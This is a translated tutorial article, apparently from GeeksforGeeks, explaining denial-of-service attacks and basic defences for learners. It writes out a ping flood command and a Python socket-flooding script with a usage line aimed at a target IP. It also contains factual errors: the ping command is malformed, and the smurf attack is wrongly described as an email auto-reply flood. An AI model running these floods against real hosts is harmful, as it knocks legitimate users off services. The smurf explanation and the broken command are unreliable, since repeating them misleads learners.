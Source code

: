 # 拒绝服务与防范

> 原文:[https://www.geeksforgeeks.org/deniel-service-prevention/](https://www.geeksforgeeks.org/deniel-service-prevention/)

拒绝服务(DoS)是对单个计算机或网站的网络攻击，目的是拒绝向目标用户提供服务。他们的目的是通过拒绝用户访问来破坏组织的网络运行。拒绝服务通常是通过用多余的请求淹没目标机器或资源来实现的，以试图使系统过载并阻止部分或全部合法请求得到满足。
例如，如果一个银行网站点击“登录”按钮一秒钟可以处理 10 个人，那么攻击者只需要每秒发送 10 个虚假请求就可以成功，这样就没有合法用户可以登录。

DoS 攻击利用了计算机网络技术中的各种弱点。它们可能以服务器、网络路由器或网络通信链路为目标。它们会导致计算机和路由器崩溃，链路瘫痪。

最著名的 DoS 技术是死亡之平。Ping of Death 攻击通过生成和发送特殊的网络消息(特别是非标准大小的 ICMP 数据包)来工作，这些消息会给接收它们的系统带来问题。在网络的早期，这种攻击可能会导致未受保护的互联网服务器快速崩溃。

**强烈建议在虚拟机上尝试所有描述的活动，而不是您的工作环境**

以下是在 IP 上执行请求泛洪的命令

```
ping ip_address –t -65500
```

这里，

*   “ping”将数据包发送给受害者。
*   “ip_address”是受害者的 ip 地址。
*   “-t”表示数据包应该一直发送到程序停止为止。
*   “-l(65500)”指定要发送给受害者的数据负载。

其他基本类型的 DoS 攻击包括

*   用无用的活动淹没网络，使真正的流量无法通过。TCP/IP SYN 和 smurf 攻击是两个常见的例子。
*   远程超载系统的中央处理器，使有效的请求无法处理。
*   更改权限或破坏授权逻辑以阻止用户登录系统。一个常见的例子是触发一系列快速的错误登录尝试，锁定帐户无法登录。
*   删除或干扰特定的关键应用程序或服务，以阻止其正常运行(即使系统和网络总体上正常运行)。

DoS 的另一个变种是[蓝精灵攻击](https://en.wikipedia.org/wiki/Smurf_attack)。这包括自动回复的电子邮件。如果有人向组织中数百人发送数百封带有虚假回复电子邮件地址的电子邮件，并且他们的电子邮件中有自动回复功能，那么最初发送的邮件可能会变成数千封发送到虚假电子邮件地址的邮件。如果那个假的电子邮件地址真的属于某个人，这可能会淹没那个人的账户。

DoS 攻击会导致以下问题:

*   无效服务
*   无法访问的服务
*   网络流量中断
*   连接干扰

下面是 python 脚本，用于为一个没想到会有这么多套接字连接的小网站执行拒绝服务攻击

```
# Please note that running this code might
# cause your IP blocked by server. And purpose
# of this code is only learning.
import socket, sys, os  
print "][ Attacking " + sys.argv[1]  + " ... ]["  
print "injecting " + sys.argv[2];  
def attack():  
    #pid = os.fork()  
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
    s.connect((sys.argv[1], 80))  
    print ">> GET /" + sys.argv[2] + " HTTP/1.1"  
    s.send("GET /" + sys.argv[2] + " HTTP/1.1\r\n")  
    s.send("Host: " + sys.argv[1]  + "\r\n\r\n");  
    s.close()  

# Driver code
for i in range(1, 1000):  
    attack() 
```

我们可以将上面的代码用作

```
python ddos.py target_ip_address apache
```

**预防**

鉴于拒绝服务(DoS)攻击变得越来越频繁，现在是回顾基础知识以及我们如何反击的好时机。

*   **云缓解提供商**–云缓解提供商是从云中提供 DDoS 缓解的专家。这意味着他们在互联网上的多个站点建立了大量的网络带宽和分布式拒绝服务缓解能力，可以接收任何类型的网络流量，无论您使用多个互联网服务提供商、您自己的数据中心还是任何数量的云提供商。他们可以为您清理流量，只向您的数据中心发送“干净”的流量。
*   **防火墙**–这是最简单也是最不有效的方法。一般来说，有人会编写一些 Python 脚本，试图过滤掉不良流量，或者企业会尝试使用其现有的防火墙来阻止流量
*   **互联网服务提供商(ISP)**–一些企业利用其 ISP 提供 DDoS 缓解。这些互联网服务提供商拥有比企业更多的带宽，这有助于应对大容量攻击

为了防范这些攻击，您必须应用安全编码并设计强大的体系结构，以防止这些类型的攻击，并更新日常解决方案来解决您网站上的漏洞。

**参考文献**T2[https://www.owasp.org/index.php/Denial_of_Service](https://www.owasp.org/index.php/Denial_of_Service)T5[https://en.wikipedia.org/wiki/Denial-of-service_attack](https://en.wikipedia.org/wiki/Denial-of-service_attack)

本文由**阿卡什·莎兰**供稿。如果你喜欢 GeeksforGeeks 并想投稿，你也可以使用[write.geeksforgeeks.org](https://write.geeksforgeeks.org)写一篇文章或者把你的文章邮寄到 review-team@geeksforgeeks.org。看到你的文章出现在极客博客主页上，帮助其他极客。

如果你发现任何不正确的地方，或者你想分享更多关于上面讨论的话题的信息，请写评论。